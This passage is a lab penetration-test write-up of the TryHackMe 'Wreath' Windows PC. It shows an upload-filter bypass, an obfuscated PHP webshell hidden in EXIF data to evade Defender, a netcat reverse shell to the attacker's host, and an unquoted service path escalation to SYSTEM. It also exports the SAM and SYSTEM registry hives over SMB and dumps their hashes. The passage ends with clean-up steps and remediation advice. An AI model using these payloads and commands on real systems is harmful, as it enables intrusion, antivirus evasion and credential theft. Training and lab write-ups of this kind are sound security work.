we can visit `http://10.200.85.100/resources` where we are greeted with a login prompt


Try Thomas' hash that we cracked earlier

User: Thomas

Password: *******

.. And we're in

Upload a normal jpg file and access it through `/resources/uploads/FILE.jpg`

Upload success


And we see our image


Now to upload an exploit to get webshell. We need to bypass the two filters
1. The file extension can be bypassed with `.jpeg.php`
2. The image size will require an actual image with shell injected in the exifdata, specifically the `Comment` field
   
Take a regular image and rename it with `.jpeg.php` extension

Run `exiftool` on the image
```
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php 
ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:30:57-04:00
...
```

There is also AV installed on this target. It may detect any default PHP webshell uploaded and alert the victim. The first step then is to create a proof of concept before we can work out an AV bypass.

Harmless PHP payload - `<?php echo "<pre>Test Payload</pre>"; die();?>` 

We add this to the image with exiftool
```
kali@kali:~/thm/wreath$ exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-Neozer0.jpeg.php
    1 image files updated
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:35:37-04:00

...

Comment                         : <?php echo "<pre>Test Payload</pre>"; die(); ?>

...
```

Now we upload this benign payload and access it on the browser to see that the test payload has worked and we are able to execute PHP code on the system!


_____________________________________

### Exploit with AV Evasion 

Given that we know the AV used on the PC is Windows Defender (preinstalled with Windows Server):
  - We build payload in a slightly less common way
  - We obfuscate manually or using a tool online

Payload:
```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

We use online [php obfuscator](https://www.gaijin.at/en/tools/php-obfuscator) with all obfuscation options set and we get:

```php
<?php \$v0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$v0)){echo base64_decode('PHByZT4=').shell_exec(\$v0).base64_decode('PC9wcmU+');}die();?>
```

Make a new copy of the image and inject our new payload
```
kali@kali:~/thm/wreath$ cp ~/Downloads/corg.jpg ./shell-Neozer0.jpeg.php
kali@kali:~/thm/wreath$ exiftool -Comment="<?php \$v0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$v0)){echo base64_decode('PHByZT4=').shell_exec(\$v0).base64_decode('PC9wcmU+');}die();?>" shell-Neozer0.jpeg.php 
    1 image files updated
kali@kali:~/thm/wreath$ exiftool shell-Neozer0.jpeg.php
ExifTool Version Number         : 12.16
File Name                       : shell-Neozer0.jpeg.php
Directory                       : .
File Size                       : 46 KiB
File Modification Date/Time     : 2021:04:24 08:24:07-04:00
File Access Date/Time           : 2021:04:24 08:24:07-04:00

...

Comment                         : <?php $v0=$_GET[base64_decode('d3JlYXRo')];if(isset($v0)){echo base64_decode('PHByZT4=').shell_exec($v0).base64_decode('PC9wcmU+');}die();?>

...
```

Visiting the page we get


We can execute command with param `wreath` by visiting: `10.200.85.100/resources/uploads/shell-Neozer0.jpeg.php?wreath=systeminfo`


_____________________________________

### Reverse shell

We upload the `nc.exe` to the `c:\windows\temp\` directory

1. Start http server and 
```
kali@kali:~/code/nc.exe$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.85.100 - - [24/Apr/2021 08:50:59] "GET /nc.exe HTTP/1.1" 200 -

```

2. Run curl command on webshell `curl http://10.50.86.79/nc64.exe -o c:\\windows\\temp\\nc-Neozer0.exe`


3. Set up netcat listener
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...

```

4. Run command to start reverse shell - `10.200.85.100/resources/uploads/shell-Neozer0.jpeg.php?wreath=powershell.exe%20c:\\windows\\temp\\nc-Neozer0.exe%2010.50.86.79%2049999%20-e%20cmd.exe`


5. Back on netcat listener we get a shell
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50050
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\resources\uploads>

```

_____________________________________

### Privilege enumeration

Check current privileges
```
C:\xampp\htdocs\resources\uploads>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

```
C:\xampp\htdocs\resources\uploads>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 
```

Check services

```
C:\xampp\htdocs\resources\uploads>wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
DisplayName                                                                         Name                                      PathName                                                                                    StartMode  
Amazon SSM Agent                                                                    AmazonSSMAgent                                                 

...

SystemExplorerHelpService                 C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe  Auto       
Windows Defender Antivirus Network Inspection Service                               WdNisSvc                                  

...  
```

Check the path of the binary of `SystemExplorerHelpService`

```
C:\xampp\htdocs\resources\uploads>sc qc SystemExplorerHelpService
sc qc SystemExplorerHelpService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

We also have access to add files in the path!

```
C:\xampp\htdocs\resources\uploads>powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files (x86)\System Explorer
Owner  : BUILTIN\Administrators
Group  : WREATH-PC\None
Access : BUILTIN\Users Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl

...
```

Two findings:

- We have privilege that could be used to escalate to system permissions. However, we need to obfuscate the exploit to get past Defender; or
- We have unquoted service path vulnerability for a service running as the system account - `SystemExplorerHelpService`

_____________________________________

### Privilege escalation

Create exploit

```cs
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
                Process proc = new Process();
                ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-Neozer0.exe", "10.50.86.79 49999 -e cmd.exe");
                procInfo.CreateNoWindow = true;
                proc.StartInfo = procInfo;
                proc.Start();
        }
    }
}
```

Now we compile the program with Mono `mcs` compiler

```
kali@kali:~/thm/wreath$ mcs Wrapper.cs 
kali@kali:~/thm/wreath$ ls Wrapper*
Wrapper.cs  Wrapper.exe
kali@kali:~/thm/wreath$ file Wrapper.exe 
Wrapper.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

We upload executable using Impacket

Start smb server on our IP serving a share called `share` in current directory. This is also using SMBv2 for relatively up to date targets
```
kali@kali:~/thm/wreath$ sudo python3 ~/code/impacket/examples/smbserver.py share . -smb2support -username user -password hellotheretaco
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0

...
```

In the reverse shell we run
- `net use \\10.50.86.79\share /USER:user hellotheretaco`

```
C:\xampp\htdocs\resources\uploads>net use \\10.50.86.79\share /USER:user hellotheretaco
net use \\10.50.86.79\share /USER:user hellotheretaco
The command completed successfully.


C:\xampp\htdocs\resources\uploads>copy \\10.50.86.79\share\Wrapper.exe %TEMP%\wrapper-Neozer0.exe
copy \\10.50.86.79\share\Wrapper.exe %TEMP%\wrapper-Neozer0.exe
        1 file(s) copied.
```

We now start another listener and execute to see if exploit works
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
```

```
C:\xampp\htdocs\resources\uploads>"%TEMP%\wrapper-Neozer0.exe"
"%TEMP%\wrapper-Neozer0.exe"
```

We get a reverse shell
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50512
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\resources\uploads>
```

Copy over file to `Program.exe`

`copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"`

```
C:\xampp\htdocs\resources\uploads>copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"
copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"
        1 file(s) copied.

C:\xampp\htdocs\resources\uploads>dir "C:\Program Files (x86)\System Explorer\"
dir "C:\Program Files (x86)\System Explorer\"
 Volume in drive C has no label.
 Volume Serial Number is A041-2802

 Directory of C:\Program Files (x86)\System Explorer

25/04/2021  08:58    <DIR>          .
25/04/2021  08:58    <DIR>          ..
22/12/2020  00:55    <DIR>          System Explorer
25/04/2021  08:00             3,584 System.exe
               1 File(s)          3,584 bytes
               3 Dir(s)   6,967,848,960 bytes free
```

Restart service

Stop - `sc stop SystemExplorerHelpService`

Start - `sc start SystemExplorerHelpService`

```
C:\xampp\htdocs\resources\uploads>sc stop SystemExplorerHelpService
sc stop SystemExplorerHelpService

SERVICE_NAME: SystemExplorerHelpService 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x1388

C:\xampp\htdocs\resources\uploads>sc start SystemExplorerHelpService
sc start SystemExplorerHelpService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

And we check on our listener with `root`
``` 
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50544
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

_____________________________________

### Exfiltration & Post Exploitation

Exfiltrate hashes

```

C:\Windows\system32>net use \\10.50.86.79\share /USER:user hellotheretaco
net use \\10.50.86.79\share /USER:user hellotheretaco
The command completed successfully.


C:\Windows\system32>reg.exe save HKLM\SAM \\10.50.86.79\share\sam.bak
reg.exe save HKLM\SAM \\10.50.86.79\share\sam.bak
The operation completed successfully.

C:\Windows\system32>reg.exe save HKLM\SYSTEM \\10.50.86.79\share\system.bak 
reg.exe save HKLM\SYSTEM \\10.50.86.79\share\system.bak
The operation completed successfully.

```

Use `Impacket`
```
kali@kali:~/thm/wreath$ ls sam* system*
sam.bak  system.bak

kali@kali:~/thm/wreath$ python3 ~/code/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************************:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:********************************:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:********************************:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:********************************:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:********************************:::
[*] Cleaning up... 
```

_____________________________________

### Clean up

- delete c:\windows\temp\chisel-Neozer0.exe
- delete c:\windows\temp\nc-Neozer0.exe
- delete resources/uploads/shell-Neozer0.jpeg.php
- stop sharing service `net use \\ATTACKER_IP\share /del` on the attacking machine
- Remove our crafted program - `del "C:\Program Files (x86)\System Explorer\System.exe"`
- Restart the service - `sc start SystemExplorerHelpService`

</details>

### Remediation

- Fix file extension filter bypass that allows `.jpeg.php` files to be uploaded
- Keep using allowlist which are better than blocklist
- Remove excess permission on the `C:\Program Files (x86)\System Explorer\` folder
- Consider reviewing current access and permissions
- Apply logging and monitoring on any access permissions changes or elevated access events

_____________________________________

## Conclusion

A combination of vulnerabilities allowed us to pivot through multiple entities and obtaining the highest access. The main vulnerabilities of note are:

- Webserver (`.200`) vulnerability
- Gitserver (`.150`) vulnerability 
- Personal PC (`.100`) upload filters vulnerability

It is recommended to:
- Upgrade Webmin and Gitstack to the latest version as detailed in the remediation part of the report
- Improve extensions type filter bypass within Thomas' webpage

_____________________________________

## References

CVE-2019-15107: https://www.cvedetails.com/cve/CVE-2019-15107/

Webserver exploit: https://github.com/MuirlandOracle/CVE-2019-15107

Gitstack: https://www.exploit-db.com/exploits/43777

PHP obfuscator: https://www.gaijin.at/en/tools/php-obfuscator
